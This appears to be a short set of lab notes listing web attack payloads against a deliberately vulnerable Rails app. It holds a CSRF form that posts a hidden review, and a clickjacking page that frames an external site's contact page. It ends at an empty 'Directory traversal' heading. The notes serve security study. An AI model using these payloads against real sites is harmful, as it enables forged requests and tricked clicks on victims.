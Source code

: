 ## 💻 Payload

Access when you have items in your cart.

```url
https://broken-rails-app.local:3000/cart/confirm
```

POST Method forms

```html
<html>
    <body>
        <form
            action="https://broken-rails-app.local:3000/products/1/reviews"
            method="POST"
        >
            <input type="hidden" name="content" value="CSRFTEST" />
            <input type="hidden" name="product_id" value="1" />
            <input type="submit" value="Submit request" />
        </form>
    </body>
</html>
```

## 🔍 Action

### Reveiw => SUBMIT

---

# ClickJacking

## 💻 Payload

```html
<html>
    <style>
        #cj {
            width: 500;
            height: 500;
            opacity: 0.5;
        }
    </style>
    <h1>Click Jacking</h1>
    <iframe id="cj" src="https://www.blksmith.jp/contact"></iframe>
</html>
```

---

# Directory traversal
